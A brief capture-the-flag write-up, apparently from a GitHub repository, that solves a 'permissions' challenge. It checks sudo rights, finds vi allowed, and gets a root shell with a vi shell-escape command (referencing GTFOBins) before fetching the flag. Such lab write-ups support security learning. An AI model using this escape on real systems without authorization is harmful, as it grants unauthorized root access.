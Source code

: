 # solution of permissions 

- when we login we can see that we are simple user without any privileges 
- first thing i tried to do is checking the command that we can execute with sudo

```bash
sudo -l
```
<img src="./images/1.png" align="center">

- we can see that we can execute vi with sudo
- now we can get root shell using vi "check gtfobins"
```bash
vi -c ':!/bin/sh' /dev/null
```

- now its time to retrieve the flag
<img src="./images/2.png" align="center">
